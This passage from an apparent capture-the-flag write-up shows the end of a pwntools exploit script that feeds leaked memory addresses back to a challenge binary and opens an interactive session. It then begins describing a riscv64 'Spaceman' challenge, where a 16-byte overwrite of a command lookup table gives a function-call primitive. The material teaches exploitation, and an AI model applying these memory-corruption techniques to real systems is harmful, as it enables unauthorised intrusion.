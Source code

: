 ```python
    ru(p,b"Back home? Hopefully the king will be pleased...")


    sleep(6)
    ru(p,b"While I am impressed with these riches.. you still must prove you sailed the world.")

    # Base
    if args.REMOTE:
        answer(p,e,4194304)
    else:
        answer(p,e,e.address)

    answer(p,e,heap_leak)
    answer(p,e,l.address)
    answer(p,e,ld.address)
    answer(p,e,start_stack)
    answer(p,e,vvar_addr)
    answer(p,e,vdso_ptr)
    answer(p,e,0xffffffffff600000)

    p.interactive()


if __name__=="__main__":
    file = args.BIN

    p = start(file)
    e = context.binary = ELF(file)
    l = ELF("./libc.so.6")
    ld = ELF("./ld-2.35.so")


    exploit(p,e,l,ld)
```

## Spaceman

This challenge is a riscv64 challenge that is statically linked and has no PIE. 
We are able to give the program the name of the command, and then it will call a lookup 
table to call the function for that specific command.

When we are prompted to get a command we have a 0x10 byte overwrite of the lookup table.
This will allow us to overwrite the command name and the command function. 


### Function Table Primitive
This is our first primitive that we found. The restrictions for this is that when we overwrite
a function a0 = 0, a1 = (cmd), a2 = len(cmd). 


CMD\_BUF     
